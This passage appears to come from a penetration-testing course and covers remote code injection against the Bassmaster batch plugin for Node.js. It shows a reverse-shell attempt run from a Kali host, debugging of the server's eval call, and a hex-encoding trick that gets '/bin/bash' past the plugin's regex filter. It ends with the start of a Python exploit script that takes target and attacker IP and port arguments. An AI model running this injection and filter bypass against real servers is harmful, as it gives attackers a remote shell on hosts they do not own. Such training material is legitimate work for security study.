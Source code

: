 kali@kali:~/bassmaster$ python bassmaster_shell.py bassmaster 192.168.119.120 5555
{"statusCode":500,"error":"Internal Server Error","message":"An internal server error occurred"}
Listing 19 - Initial attempt to gain a reverse shell fails

Since our exploit has clearly failed, we need to figure out where things went wrong. To do that, we can slightly modify the lib/batch.js file on the target server and add a single debugging statement right before the eval function call. Specifically, we want to see what exactly is being passed to the eval function for execution. The new code should look like this:

...
            if (ref) {
                var value = null;

                try {
                    console.log('Executing: ' + parts[i].value);
                    eval('value = ref.' + parts[i].value + ';');
                }
                catch (e) {
...
Listing 20 - Debugging code execution

If we now execute our reverse shellcode injection script, we can see the following output in the server terminal window:

Figure 4: Debugging a failed attempt to get a reverse shell
Figure 4: Debugging a failed attempt to get a reverse shell
That certainly does not look like our complete code injection! It appears that our payload is getting truncated at the first forward slash. However, if you recall how the regular expression that filters our input works, this result actually makes sense. Let's submit our whole payload to the regex checker and see how exactly the parsing takes place.

Figure 5: Regex checker ran against the Node.js reverse shell
Figure 5: Regex checker ran against the Node.js reverse shell
We can clearly see that the regular expression is explicitly looking for the forward slashes and groups the input accordingly. Again, this makes sense as the inputs the Bassmaster plugin expects are actually URL paths.

Since our payload contains forward slashes ("/bin/bash") it gets truncated by the regex. This means that we need to figure out how to overcome this character restriction. Fortunately, JavaScript strings can by design be composed of hex-encoded characters, in addition to other encodings. So we should be able to hex-encode our forward slashes and bypass the restrictions of the regex parsing. The following proof of concepts applies the hex-encoding scheme to the cmd string.

import requests,sys

if len(sys.argv) != 4:
    print "(+) usage: %s <target> <attacking ip address> <attacking port>" % sys.argv[0]
    sys.exit(-1)
    
target = "http://%s:8080/batch" % sys.argv[1]

cmd = "\\\\x2fbin\\\\x2fbash"

attackerip = sys.argv[2]
attackerport = sys.argv[3]

request_1 = '{"method":"get","path":"/profile"}'
request_2 = '{"method":"get","path":"/item"}'
